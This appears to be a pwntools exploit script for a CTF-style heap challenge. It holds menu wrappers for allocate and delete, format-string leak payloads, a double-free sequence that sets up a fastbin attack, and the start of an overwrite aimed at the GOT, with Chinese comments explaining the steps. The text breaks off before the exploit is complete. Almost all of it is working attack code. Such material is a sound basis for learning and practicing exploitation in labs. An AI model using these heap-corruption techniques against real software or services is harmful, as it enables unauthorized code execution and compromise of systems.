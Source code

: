```
def dbg(breakpoint=0):
    elf_base = int(os.popen('pmap {}| awk \x27{{print \x241}}\x27'.format(io.pid)).readlines()[1], 16)if elf.pie else 0 
    if breakpoint!=0:
        gdbscript = 'b *{:#x}\n'.format(int(breakpoint) + elf_base) if isinstance(breakpoint, int) else breakpoint
        gdb.attach(io, gdbscript)
        time.sleep(1)
    else:
        cmd = "b *realloc\nb *malloc\nb *0x400A0E\n "
        gdb.attach(io,cmd)

if len(sys.argv)>1:
    io = remote(sys.argv[1],int(sys.argv[2]))
    #libc = ELF("./libc.so.6")
else:
    io = pre(0)
    libc = elf.libc

def new(size,con,line=1):
    sela(":\n","1")
    sela(":",str(size))
    if line==1:
        sela(":",str(con))
    else:
        sea(":",str(con))

def de(ind):
    sela(":\n","3")
    sela(":",str(ind))

for i in range(17):
    new(0x10,"%13$p")
for i in range(3):
    new(0x50,"bbb")
de(18)
de(18)
de(17)
de(19)

# 17 18 处都存放着19的地址，因此需要整体前移两位
de(0)
de(0)
# 创造0x60 的fastbin attack 环境
new(0x60,"xxx") #17
new(0x60,"xxx") #18
new(0x60,"xxx") #19

de(18)
de(18)
de(17)
de(19)

'''
0x60: 0x11982e0 —▸ 0x1198220 ◂— 0x11982e0
0x70: 0x1198420 —▸ 0x1198340 ◂— 0x1198420
'''
# clean 
for i in range(5):
    de(0)

# fastbin attack to got 
tar = 0x602000+2-8
```